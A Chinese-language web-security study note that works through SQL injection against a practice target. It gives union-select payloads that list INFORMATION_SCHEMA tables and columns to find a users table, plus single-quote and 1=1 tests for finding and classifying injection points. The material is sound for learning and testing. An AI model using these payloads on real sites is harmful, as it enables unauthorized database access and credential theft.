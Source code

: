 - 通过猜测，进行数据表的模糊匹配

  - body 的内容为：movie=11 union select 1,user(),database(),table_name,version(),6,7 from INFORMATION_SCHEMA.tables where table_schema=database() and table_name like 'user%' # &action=go
  - 可以看到有一个 users 的数据表

- 进行users表结构信息获取 

  - body 的内容为：movie=11 union select 1,column_name,3,4,5,6,7 from INFORMATION_SCHEMA.columns where table_name='users' # &action=go
  - 只可以看到有一个字段是 id

- 进行 用户数据获取

  - 使用 password 进行模糊匹配？





#### 判断SQL注入点 

- 判断注入点时的关键点

  - 判断该访问目标 URL 是否存在 SQL 注入？
  - 如果存在 SQL 注入，那么属于哪种 SQL 注入？
  - TIPS：只要是带有参数的动态网页且此网页访问了数据库，那么就有可能存在 SQL 注入。 

- 判断SQL注入点 – 经典的单引号判断法 

  - http://xxx/test.php?id=1'
  - 如果页面返回错误，则存在 SQL 注入。
  - 原因是无论字符型还是整型都会因为单引号个数不匹配而报错。 

- 判断SQL注入点 – 判断注入类型 

  - 通常SQL注入分为两种：数字型 + 字符型
  - 数字型：
    - 通常语句类型为 select * from <表名> where id = x
    - 我们通常构造and 1=1以及and 1=2来判断
    - select * from test where id=1 and 1=1;
  - 字符型：
    - 通常语句类型为select * from <表名> where id = 'x'
    - 我们通常构造and '1'='1以及and '1'='2来判断 
    - select * from test where name='test1' and '1'='1';

- 判断SQL注入点 – 回归测试 

  - 打开靶机，设置为 SQL Injection (GET/Search)
  - 使用 http://xforburp.com/sqli_1.php?title=d%' and '1'='1'-- &action=search 测试
  - 不添加那个 % ，就无法获得数据
  - 来看一遍源码 ，cd /var/www/html， vim sqli_1.php

  ![1617098333173](HackerMeWeb.assets/1617098333173.png)
